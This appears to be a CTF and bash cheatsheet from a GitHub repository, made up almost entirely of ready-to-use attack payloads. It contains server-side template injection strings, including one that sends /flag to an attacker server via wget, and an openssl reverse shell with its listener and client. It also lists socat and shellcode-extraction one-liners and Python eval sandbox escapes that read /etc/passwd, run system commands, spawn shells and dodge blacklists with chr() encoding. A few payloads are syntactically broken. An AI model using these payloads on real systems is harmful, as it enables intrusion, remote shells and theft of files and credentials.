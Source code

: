 # Bash And CTF Cheatsheet

## Server Side Template Injection
```
{{()}}
{{''}}
{{ globals }}
{{ dict }}
{{ range }}
{{ self.__dict__ }}
{{ get_flashed_message.__globals__ }}

list(list(''.__reduce__(42).__getitem__(0).__globals__.values()).__getitem__(1).
values()).__getitem__(125)("/flag").read() # maybe tornado
dict(b=globals).get('b')().pop('__buil''tins__').pop('op''en')('/flag').read() # maybe tornado
globals().__getitem__('__bui''ltins__').__getitem__('op''en')('/flag').read() # maybe tornado
## source : https://spyclub.tech/2018/inctf2018-web-challenge-writeup/

bash
{{ ().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].system('cat flag.txt') }}

# Tornado : https://ctftime.org/writeup/11519
{{globals.__self__.exec("imp"+"ort o"+"s;o"+"s.system('cat /flag|xa"+"rgs wget http://my_server 80 --user-agent')")}}

```


## Bash Hack

### Bashfuck
Executing command without using alphanum characters

[BasFuck](https://github.com/trichimtrich/bashfuck)

### Socat

```bash
socat -d -d -d TCP4-LISTEN:1337,reuseaddr,fork EXEC:"python pwn.py" > /dev/null 2>&1 &
```

### Shellcode Extractor

```bash
objdump -d ./orww|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
Source : [http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/](http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/) 

### Reverse SSL shell openssl - @ThemsonMester

Before the listener can be started, a key pair and a certificate must be generated.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

#### Listener
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

#### Shell
```bash
mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <HOST>:<PORT> > /tmp/s; rm /tmp/s
```
Source : [https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c](https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c)

### Spawn("/bin/bash") if no python installed

No python installed for the 'pty.spawn("/bin/bash")' trick? Can use expect or script as well :D

#### Script
```bash
SHELL=/bin/bash script -q /dev/null
```

#### expect
```bash
expect -c 'spawn bash; interact'
```
Source : [https://twitter.com/ropnop/status/884928178048860160](https://twitter.com/ropnop/status/884928178048860160)


### awk
```bash
awk 'BEGIN {system("/bin/bash")}'
```

## Python eval payload

i
```python
print('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
exit()
sum(xrange(-999999999,99999999))
 
file('/etc/passwd').read()
open('/etc/passwd').read()
__import__['fileinput'].input('/etc/passwd')
__import__['os'].system('cat /etc/passwd')
__import__['os'].popen('/etc/passwd', 'r').read()
__import__['os'].system('cd /; python -m SimpleHTTPServer')
 
print(file('/etc/passwd').read())
print(open('/etc/passwd').read())
print(__import__['fileinput'].input('/etc/passwd'))
print(__import__['os'].system('cat /etc/passwd'))
print(__import__['os'].popen('/etc/passwd', 'r').read())
print(__import__['os'].system('cd /; python -m SimpleHTTPServer'))
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['exit']()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['sum']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['xrange'](-999999999,99999999))
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer')
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer'))

# If system or popen or __import__ is blacklisted

[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('pty).spawn('sh')

[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('subprocess').check_output('ls')

## https://github.com/flawwan/CTF-Writeups/blob/master/inCTF2018/secure-file-uploader.md
getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]('flag').read()
```
source : [https://www.floyd.ch/?p=584](https://www.floyd.ch/?p=584) 

## 

